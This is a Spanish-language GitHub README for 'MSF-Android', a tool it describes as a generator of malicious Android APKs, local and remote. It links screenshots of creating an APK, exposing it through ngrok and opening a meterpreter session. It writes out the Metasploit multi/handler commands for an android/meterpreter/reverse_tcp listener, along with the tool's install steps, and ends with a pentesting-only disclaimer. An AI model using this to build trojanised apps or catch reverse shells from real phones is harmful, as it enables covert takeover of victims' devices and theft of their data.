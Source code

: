 ![msf_android](https://user-images.githubusercontent.com/75953873/156860322-6259edbf-475f-4e3a-9ad1-267473e4f16a.png)

Generador de APK's maliciosas para Android | local y remoto.

![msf_android](https://user-images.githubusercontent.com/75953873/156859921-fb62e471-16e6-43f9-809c-245d9ccf57ea.png)

## 📷 SCREENSHOTS 

### Instalando NGROK:
![download_ngrok](https://user-images.githubusercontent.com/75953873/156859956-3ff26083-f760-4f0b-8601-bc3522d069bf.png)


### Creando APK:
![ngrok](https://user-images.githubusercontent.com/75953873/156860013-d3fb2582-7b6a-4ccf-90ff-cdd2084173f7.png)


### Obteniendo enlace **`LOCAL`** && **`REMOTO`**:
![downloadAPK](https://user-images.githubusercontent.com/75953873/156860044-338999aa-7bb6-4e50-9bfe-551bfe7ed5ce.png)

### Obteniendo una sesión meterpreter
![exploit](https://user-images.githubusercontent.com/75953873/156860066-cb01fbe7-8b91-4666-9cb7-02188ad603ac.png)

##### Abrimos una nueva terminal y ejecutamos:
```
> msfconsole
> use exploit/multi/handler
> set payload android/meterpreter/reverse_tcp
> set LHOST 0.0.0.0
> run
```
![exploit_2](https://user-images.githubusercontent.com/75953873/156860088-75dcb013-275e-4c35-a924-3c1054eba630.png)


## Instalación / Installation

```
> git clone https://github.com/R3LI4NT/MSF-Android
> cd MSF-Android
> pip3 install -r requirements.txt
> sudo python3 msfandroid.py
```


### Importante

**`ES:`** No me hago responsable del mal uso que se le pueda dar a esta herramienta, úselo para Pentesting o fines educativos.

**`EN:`**  I am not responsible for the misuse that may be given to this tool, use it for Pentesting or educational purposes.
